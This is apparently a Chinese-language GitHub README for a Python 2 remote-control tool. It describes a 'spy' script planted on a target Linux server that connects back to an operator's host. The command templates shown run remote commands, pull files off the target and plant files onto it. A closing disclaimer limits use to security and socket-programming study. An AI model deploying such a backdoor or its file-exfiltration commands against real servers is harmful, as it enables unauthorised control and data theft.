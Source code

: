 # Remote Control For Linux Server

## 1. 功能

- 远程命令

- 文件植入

- 文件获取

## 2. 使用

### 2.1. 前提

假设间谍脚本`spy.py`已经植入目标服务器，即已经在远端执行了`python2 spy.py -h <host> -p <port>`

### 2.2. 查看帮助

```
$ python2 ins.py
```
![](./img/usage.png)

### 2.3. 远程命令

指挥部执行如下指令：

```shell
$ python2 ins.py -h <host> -p <port> -l <listen-num> -c
```

![](./img/send_cmd.png)

### 2.4. 文件获取/植入

指挥部用两个终端开放两个端口，分别用于远程命令与文件操作，以文件获取为例（如下图左侧的上、下终端）。

左上终端建立连接并确认间谍脚本位置后，发送如下命令，使远端与指挥部一条新的文件传输连接。

```shell
$ python2 <spy-dir> -h <host> -p <new-port> -u <up-file-dir>
```

左下终端开放新端口，等待远端与之建立连接后进行文件传输。

```shell
$ python2 ins.py -h <host> -p <new-port> -d <down-file-dir>
```

![](./img/send_file_edited.png)

文件植入同理。

## 3. 声明

本程序仅供网络安全与socket编程相关的学习交流使用，不得用于一切不正当用途。
未经授权擅自使用，后果自负。
